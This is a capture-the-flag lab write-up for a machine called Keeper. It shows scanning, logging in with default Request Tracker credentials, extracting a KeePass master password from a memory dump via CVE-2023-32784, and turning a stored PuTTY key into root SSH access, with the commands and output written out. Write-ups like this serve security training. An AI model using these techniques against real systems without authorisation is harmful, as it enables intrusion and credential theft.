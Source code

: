 # Keeper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.207.151          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 22:12 +08
Warning: 10.129.207.151 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.207.151
Host is up (0.16s latency).
Not shown: 65393 closed tcp ports (conn-refused), 140 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can start proxying traffic through Burpsuite.

### Web Enumeration --> SSH Creds

Visiting the website itself shows a domain we need to add:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

After adding to the `/etc/hosts` file, it brings us to a login page:

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

The website was running Best Practical Request Tracker (RT) 4.4.4, which is quite outdated. A bit of research reveals that `root:password` is the default password, which works here:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

There is 1 ticket present, and it's an issue regarding Keepass (with the box name being an obvious hint).&#x20;

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The attachment has been removed. There's also mention of another user named `lnorgaard`. When we use the Admin panel to view all Users, there's a password located within the user's comments:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can `ssh` in as the user:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Keepass Dump --> CVE-2023-32784

Within the user's directory, there's one `zip` file present:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Within it is the `.dmp` file for the Keepass client mentioned in the ticket earlier. I searched for Keepass exploits for 2023, and found this one:

{% embed url="https://sysdig.com/blog/keepass-cve-2023-32784-detection/" %}

This exploits allows us to get passwords from Keepass dump files, and there is one PoC for it:

{% embed url="https://github.com/vdohney/keepass-password-dumper" %}

We can clone the repository and clean it up a bit. Afterwards, use `scp` to transfer the file out:

```
scp lnorgaard@keeper.htb:~/KeePassDumpFull.dmp .
```

Then, in order to run the binary, I had to change the dependencies from `net7.0` to `net6.0` within the `.csproj` file:

```markup
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```

Afterwards, we can use `dotnet run` to execute the program:

```
$ dotnet run KeePassDumpFull.dmp
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ●
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ●
16.:    d, 
17.:    e, 
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}<REDACTEDSTRING>
```

This would produce a string at the end with some non-printable characters. Googling part of the string reveals a certain Danish dessert (based on the username of the user):

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Using the name of the dessert, we can access the passwords within the `.kdbx` file:

```
$ kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
passcodes/
```

### Keepass PPX Key --> Root SSH Key

There are quite a few entries within this Keepass instance:

```
kpcli:/passcodes> ls *
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

Within the `keeper.htb` entry, there's a key of some sorts, as well as a fake password for `root`:

```
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <TRUNCATED>
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <TRUNCATED>
```

This is a Putty User Key File, which can be converted back to an `ssh` key.&#x20;

{% embed url="https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux" %}

```
$ puttygen key.ppk -O private-openssh -o sshkey.rsa
$ cat sshkey.rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
<TRUNCATED>
```

After running `chmod 600` on it, we can use this private key to `ssh` in as `root`:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`dotnet run` saves loads of time transferring files to a Windows machine. Rooted!&#x20;
